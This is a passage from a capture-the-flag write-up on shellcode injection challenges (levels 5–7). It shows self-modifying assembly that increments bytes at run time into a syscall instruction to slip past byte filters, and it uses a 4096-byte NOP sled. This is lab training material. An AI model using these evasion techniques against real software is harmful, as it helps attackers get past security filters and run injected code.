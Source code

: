 

## level 5

> Write and execute shellcode to read the flag, but the inputted data cannot contain any form of system call bytes (syscall, sysenter, int), can you defeat this?

* Since `syscall` instructions are now, we will have to create a [self-modifying shellcode](https://nets.ec/Shellcode/Self-modifying) which will bypass the filters.
* For this, we have to create a label that has the bytes, `0x0e` and `0x04`.

```armasm
sys1:
.byte 0x0e
.byte 0x04
```

* Before this label is executed, we have to increment the byte values so that they are `0x0f` and `0x05` which is the bytecode for `syscall`.
* Our modifications should look something like this:

```armasm
inc byte ptr [rip + sys1 + 1]
inc byte ptr [rip + sys1]

sys1:
.byte 0x0e
.byte 0x04
```



## level 6

> Write and execute shellcode to read the flag, but the inputted data cannot contain any form of system call bytes (syscall, sysenter, int), this challenge adds an extra layer of difficulty!

* The code from [level 5](shellcode-injection.md#level-5) will work for this level but before that we have to make some changes.
* Since the first 4096 bytes will not have write permission, we have to make sure that they are useless for our shellcode to execute. THis can be achieved using NOP sled similar to level 2.

```
.rept 0x1000
nop
.endr
```

* This time the `nop` instruction will repeat 4096 times.



## level 7

> Write and execute shellcode to read the flag, but all file descriptors (including stdin, stderr and stdout!) are closed.

* Since we are not outputting the flag to `stdout`, this is not really a problem for us.
* We can go ahead and use the code from [level 1](shellcode-injection.md#level-1).
